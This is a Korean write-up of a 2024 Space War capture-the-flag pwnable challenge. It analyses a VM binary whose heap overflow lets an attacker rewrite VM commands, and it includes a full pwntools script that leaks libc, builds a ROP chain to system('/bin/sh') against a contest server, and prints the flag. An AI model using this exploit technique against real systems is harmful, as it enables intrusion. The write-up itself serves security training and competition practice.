 # 2024 Space War Write-Up

- 이름: 정지민
- 닉네임: mini_chip
- 소속: 고려대학교 사이버국방학과
- 이메일: jjm4043@gmail.com

---

## VMUnprotected

- 분야 - Pwnable
- 체감 난이도(1-10): 3

### Binary 분석

![Untitled](/CTF/Hspace_Space_War/img/Untitled.png)

문제의 이름처럼 전형적인 VM 문제입니다.

해당 문제의 경우에는, VM 바이너리 내부에 VM에서 실행되는 command까지 같이 들어 있습니다. 이 command값에 따라 그에 맞는 switch case문이 실행됩니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_1.png)

ptr은 switch문의 case 2에서 getchar를 반복 실행하며 입력 받은 문자열을 저장하는 공간입니다.

dest는 command가 담겨있습니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_2.png)

![Untitled](/CTF/Hspace_Space_War/img/Untitled_3.png)

getchar를 받는 로직을 살펴보면 “\n”을 입력 받을 때까지 무한대로 입력이 가능한 것을 확인할 수 있습니다. 이렇게 되면 malloc(0xFE)로 할당 받은 공간을 overflow시킬 수 있습니다.

힙 구조 상 해당 chunk와 인접한 chunk가 dest가 가리키는 chunk가 되며, 이는 command가 들어가 있는 chunk입니다. 그래서 ptr chunk를 overflow시켜서 command값을 overwrite하고 command를 마음대로 조작할 수 있는 취약점이 발생합니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_4.png)

command로 수행되는 로직을 살펴보면,

command 값인 opcode(v3)와 idx값에 따라 지역 변수 v4 주변의 값들을 조작할 수 있습니다.

v4 주변의 값을 읽을 수도 있고, 해당 영역에 원하는 값을 쓰는 것도 가능합니다.

특히, 선언된 v4는 8byte 크기이지만 command로 입력될 수 있는 idx는 8보다 큰 값이 들어갈 수 있습니다.

스택에서 지역 변수 v4 아래에 있는 값 중 main함수의 ret address에 있는 값을 읽으면 libc 주소를 알아낼 수 있습니다. 그리고 ROP 세팅을 해준 뒤에 해당 함수를 종료시키면 쉘을 딸 수 있습니다.

### Exploit Code

```python
from pwn import *

p = remote("3.34.190.217", 8002)
#p = process("./VMUnprotect")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

payload = b"A" * 0x110
payload += b"A" * 240

#libc_start_main_leak
payload += b"\x01\x28"
payload += b"\x01\x29"
payload += b"\x01\x2a"
payload += b"\x01\x2b"
payload += b"\x01\x2c"
payload += b"\x01\x2d"
payload += b"\x01\x2e"
payload += b"\x01\x2f"
payload += b"\x02"
p.sendline(payload)

p.recvuntil(": ")

libc_start_main = u64(p.recvn(8))
print(hex(libc_start_main))
libc_base = libc_start_main - 0x029d90
system_addr = libc_base + 0x050d70
pop_rdi = libc_base + 0x000000000002a3e5
bin_sh = libc_base + 0x1d8678
ret = libc_base + 0x0000000000029139

#ROP Chaining
payload = b"\x04\x18" + (pop_rdi & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x19" + ((pop_rdi >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1a" + ((pop_rdi >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1b" + ((pop_rdi >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1c" + ((pop_rdi >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1d" + ((pop_rdi >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1e" + ((pop_rdi >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1f" + ((pop_rdi >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x20" + (bin_sh & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x21" + ((bin_sh >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x22" + ((bin_sh >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x23" + ((bin_sh >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x24" + ((bin_sh >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x25" + ((bin_sh >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x26" + ((bin_sh >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x27" + ((bin_sh >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x28" + (ret & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x29" + ((ret >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2a" + ((ret >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2b" + ((ret >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2c" + ((ret >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2d" + ((ret >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2e" + ((ret >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2f" + ((ret >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x30" + (system_addr & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x31" + ((system_addr >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x32" + ((system_addr >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x33" + ((system_addr >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x34" + ((system_addr >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x35" + ((system_addr >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x36" + ((system_addr >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x37" + ((system_addr >> 56) & 0xff).to_bytes(1, byteorder="little")

#End VM Logic
payload += b"\x20"
p.sendline(payload)

p.interactive()
```

![Untitled](/CTF/Hspace_Space_War/img/Untitled_5.png)

`flag: hspace{7a9de3a22d89b3c343d4d5ec621dcfba1e6091b144cb24abe43b6a888ff61bef}`

### 후기

일반적으로 Pwnable에서 출제되는 VM 문제의 경우 대부분 command를 직접 작성할 수 있게 해주지만, 이 문제의 경우 대놓고 command를 작성할 수는 없었습니다. command를 조작할 수 있는 취약 점을 찾은 뒤에 VM을 탈출할 수 있도록 command를 적절히 조작하는 점이 상당히 재미있었습니다.

command를 조작할 수 있는 취약점 자체와 쉘을 따는 command를 작성하는 것 자체는 상당히 쉬웠기 때문에 크게 어렵지는 않은 문제라고 생각합니다.

---